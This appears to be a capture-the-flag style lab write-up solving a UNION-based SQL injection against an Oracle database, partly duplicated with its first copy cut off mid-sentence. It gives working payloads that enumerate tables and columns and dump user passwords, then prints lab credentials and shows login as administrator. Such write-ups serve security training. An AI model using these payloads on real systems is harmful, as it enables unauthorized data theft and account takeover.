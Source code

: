 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :


> NOTE -  On Oracle databases, every `SELECT` statement must **specify a table to select FROM**. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
>
>There is a built-in table on Oracle called **dual** which you can use for this purpose. 
>
> For example: `UNION SELECT 'abc' FROM dual`

#### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234492107-acad89e0-9e01-4c0e-aab3-17c4f3ab8c0b.png)

#### Determine column with text data

Here we use the `DUAL` table which is by defaut present in ORACLE databse

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' FROM DUAL--
```

![image](https://user-images.githubusercontent.com/67383098/234493878-4160908e-fddd-4269-a091-395850b55e44.png)

#### Retreive data from ORACLE db -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM all_tables--
```

We get a list of all the tables,

The table which we are interested in is this 

## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :


> NOTE -  On Oracle databases, every `SELECT` statement must **specify a table to select FROM**. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
>
>There is a built-in table on Oracle called **dual** which you can use for this purpose. 
>
> For example: `UNION SELECT 'abc' FROM dual`

#### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234492107-acad89e0-9e01-4c0e-aab3-17c4f3ab8c0b.png)

#### Determine column with text data

Here we use the `DUAL` table which is by defaut present in ORACLE databse

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' FROM DUAL--
```

![image](https://user-images.githubusercontent.com/67383098/234493878-4160908e-fddd-4269-a091-395850b55e44.png)

## Retreive data from ORACLE db -


#### List all tables -

We  can list all the tables by querying `SELECT * FROM all_tables`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM all_tables--
```

We get a list of all the tables,

![image](https://user-images.githubusercontent.com/67383098/234659263-98f15cf2-160e-49d8-b21f-7ad8fb4b9e63.png)


The table which we are interested in is this 

![image](https://user-images.githubusercontent.com/67383098/234659000-b284eca8-f80a-462a-95c4-490337db94bb.png)


#### List all columns -

We can list all the columns by querying `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_UHYHRO'--
```

![image](https://user-images.githubusercontent.com/67383098/234661116-f2d333fc-230e-4f5b-aa24-39d4093254a2.png)


#### Retreive admin's password


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT USERNAME_YNHYHK,PASSWORD_LFRJHB FROM USERS_UHYHRO--
```

![image](https://user-images.githubusercontent.com/67383098/234662091-d257d067-b0b9-4262-8ac4-2eb12c3e5b9b.png)

administrator - `eyjpiterylmsfcqq25ja`
wiener        - `tl4drtumhh8bgq4ndq4f`
carlos        - `z8ir2ghepg2rjjqgq3av`

Now login as administrator,

![image](https://user-images.githubusercontent.com/67383098/234662712-cf04ccef-72a8-4383-857d-bf47b02bff1f.png)



























